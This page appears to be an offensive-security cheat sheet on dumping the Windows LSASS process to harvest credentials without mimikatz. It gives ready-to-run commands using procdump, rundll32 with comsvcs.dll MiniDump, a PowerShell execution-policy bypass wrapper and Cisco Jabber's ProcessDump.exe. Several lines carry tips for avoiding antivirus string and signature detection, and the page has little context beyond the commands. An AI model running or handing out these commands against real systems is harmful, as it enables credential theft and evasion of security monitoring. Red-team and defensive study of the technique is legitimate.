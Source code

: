 ```yaml
---
description: Dumping LSASS without mimikatz
---
```


# Dumping LSASS.exe

## Procdump

Procdump is a Microsoft signed administration tool, not typically flagged. 

```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Use -r to clone the process prior to duplicating to avoid reading lsass.exe directly
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp

# Use %PID% instead of lsass.exe to avoid string detection
procdump.exe -accepteula -r -ma %PID% FriendlyExport.dmp

# Dynamically get the %PID%
 (ps lsass).id
 (ps ls*).id #cut down to avoid signatures
 
 # combine them all 
 procdump.exe -accepteula -r -ma (ps ls*).id FriendlyExport.dmp
```

## Comsvcs.dll

```text
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump %PID% .\Lsass.dump full
```

Can be wrapped in a powershell command too:

```text
Powershell.exe -ep bypass -nop -c rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump %PID% .\Lsass.dump full
```

[https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/](https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/)

## ProcessDump.exe from Cisco Jabber

Cisco Jabber comes with a binary called ProcessDump.exe which can be used like procdump.

Location: C:\Program Files \(x86\)\Cisco Systems\Cisco Jabber\x64\ProcessDump.exe

```text
processdump.exe (ps lsass).id c:\temp\export.dmp
```

## Task Manager

Requires graphical access in addition to administrator rights.

![](../../.gitbook/assets/image%20%284%29.png)

